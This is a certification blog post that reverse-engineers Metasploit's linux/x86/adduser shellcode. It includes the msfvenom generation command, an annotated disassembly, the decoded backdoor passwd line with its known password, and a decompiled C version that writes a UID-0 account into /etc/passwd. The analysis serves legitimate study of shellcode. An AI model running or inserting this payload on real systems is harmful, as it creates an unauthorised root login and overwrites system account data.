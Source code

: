 Title: SLAE32 - Assignment 5.1
Date: 2022-06-04T10:08:39.000Z


## Disclaimer

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-30398

## Analysis

I chose the following 4 shellcode samples:

<table>
<thead>
<tr>
<th>Name</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>linux/x86/adduser</td>
<td>Create a new user with UID 0</td>
</tr>
<tr>
<td>linux/x86/shell/reverse_nonx_tcp</td>
<td>Spawn a command shell (staged). Connect back to the attacker</td>
</tr>
<tr>
<td>linux/x86/shell_find_tag</td>
<td>Spawn a shell on an established connection (proxy/nat safe)</td>
</tr>
<tr>
<td>linux/x86/shell_reverse_tcp_ipv6</td>
<td>Connect back to attacker and spawn a command shell over IPv6</td>
</tr>
</tbody>
</table>

In this post I'll analyze the shellcode `linux/x86/adduser`.

### NDISASM

To generate the payload:

```bash
msfvenom -p linux/x86/adduser -o shellcode.bin
```

To analyze it with `ndisasm`:

```bash
ndisasm shellcode2.bin -b 32 -p intel
```

It returns the following output (comments are mine though):

```nasm
                            ; ECX = 0
00000000  31C9              xor ecx,ecx

                            ; EBX = 0
00000002  89CB              mov ebx,ecx

                            ; EAX = 70
00000004  6A46              push byte +0x46
00000006  58                pop eax

                            ; call setreuid
00000007  CD80              int 0x80
```

<figcaption class="figure-caption">The shellcode runs the command `setreuid(0, 0)` in order to execute subsequent instructions as **root**</figcaption>

```nasm
                            ; EAX = 5
00000009  6A05              push byte +0x5
0000000B  58                pop eax

                            ; pushes 0x2f6574632f2f70617373776400000000 to the stack
                            ; which is equal to "/etc//passwd"
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f

                            ; store reference to string into EBX
0000001E  89E3              mov ebx,esp

                            ; ECX = 0x401 (1025)
00000020  41                inc ecx
00000021  B504              mov ch,0x4

                            ; syscall open
00000023  CD80              int 0x80
```

<figcaption class="figure-caption">The shellcode calls `open()` on `/etc//passwd` with flags `O_WRONLY` and `O_NOCTTY`</figcaption>

The file must already exist, otherwise the function won't be able to open it.

```nasm
                            ; exchanges the values of EAX and EBX
00000025  93                xchg eax,ebx

                            ; jumps to 0x00000053
00000026  E828000000        call 0x53
```

<figcaption class="figure-caption">After exchanging `EAX` with `EBX`, the shellcode jumps to `0x00000053`</figcaption>

```nasm
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
```

<figcaption class="figure-caption">The bytes from `0x0000002B` to `0x00000052` represent a string. In fact, the last byte is `0x0a` is a newline (`\n`) on Linux systems)</figcaption>

```nasm
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1
0000005E  58                pop eax
0000005F  CD80              int 0x80
```

I won't cover the bytes from `0x00000052` to `0x0000005f` as they aren't correct. In this case, `ndisasm` thinks that the byte at `0x00000052` is the opcode for the `OR` instructions, however it's simply a newline.

I had to adjust it manually:

```bash
echo -n '598b51fc6a0458cd806a0158cd80' | xxd -r -p > shellcode2.bin

ndisasm shellcode2.bin -b 32 -p intel
```

Follows the output of `ndisasm`:

```nasm
                            ; store the reference to the string into ECX
00000000  59                pop ecx

                            ; copy the byte stored at ECX-4 into EDX 
00000001  8B51FC            mov edx,[ecx-0x4]

                            ; call the write syscall
00000004  6A04              push byte +0x4
00000006  58                pop eax
00000007  CD80              int 0x80
```

<figcaption class="figure-caption">According to the docs, `EDX` stores the length of the string, so it should be `0x28` (40 chars). The value is the fourth-to-last byte of the instruction stored at the address `0x00000026` (`E828000000`)</figcaption>

After the shellcode retrieves the size of the string to be written, it uses the `write()` syscall to write into the previously opened file, which is overwritten.

```nasm
                            ; call the exit syscall
00000009  6A01              push byte +0x1
0000000B  58                pop eax
0000000C  CD80              int 0x80
```

<figcaption class="figure-caption">The shellcode gracefully terminates its execution</figcaption>

These last two pieces of shellcode simply write the new string inside the previously-opened file: `/etc//passwd`.

The line is the following:

```bash
echo "6D65746173706C6F69743A417A2F6449736A3470344952633A303A303A3A2F3A2F62696E2F73680A" | xxd -r -p

# metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

The format is the following:

```txt
USERNAME:HASHED_PASSWORD:UID:GUID:GECOS_INFO:HOME_DIRECTORY:SHELL
```

The password in encrypted with `DES`, which is a weak encryption scheme. The first two characters (`Az`) are the salt, while the other eleven characters are the hash value.

According to the documentation of the module, the password should be `metasploit`.

Once the line is written, a new user with `UID 0` and `GUID 0` (hence identical to `root`), will be added to the machine.

### De-compiling

Since the shellcode it's small, I tried to convert the assembly instructions into a C program, in order to make it easier to understand what's going on:

```cpp
#include <unistd.h>
#include <fcntl.h>

int main(int argc, char *argv[])
{
  setreuid(0, 0);
  int fd = open("/etc//passwd", O_WRONLY | O_NOCTTY);
  write(fd, "metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\n", 40);
}
```

<figcaption class="figure-caption">De-compiled code</figcaption>

A brief summary:

<ol><li>it uses `setreuid()` to set "real and effective user IDs of the calling process" (the difference arises when impersonating other users)
- it uses `open()` to open the file `/etc//passwd` (which must already exist) in write mode, so it overwrites all of the contents
- it uses `write()` to write **40 bytes** (the string shown above) inside the file

